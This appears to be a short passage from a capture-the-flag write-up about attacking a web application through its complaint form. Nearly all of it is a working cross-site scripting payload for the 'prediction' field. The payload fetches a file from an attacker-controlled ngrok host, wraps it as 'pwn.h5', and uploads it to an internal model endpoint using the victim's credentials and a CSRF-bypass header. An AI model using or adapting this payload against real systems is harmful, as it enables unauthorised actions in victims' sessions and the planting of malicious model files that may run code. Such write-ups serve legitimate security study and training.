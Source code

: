 The payload to insert on the **prediction** field in the POST request to send a complaint is the following:

```http
"<img src=\"pwn\" onError=\"const postForm = async (url, formData) => { return await fetch(url, { method: 'POST', body: formData, headers: { 'X-SPACE-NO-CSRF': '1', }, credentials: 'include', }) }; fetch(`http://<ngrok_ip>:19092/my_file`).then(response => response.blob()).then( blob => { const my_file = new File([blob], 'pwn.h5', { type: 'application/x-hdf'}); const formData = new FormData(); formData.append('file', my_file); postForm('/api/internal/model', formData);})\" "
```
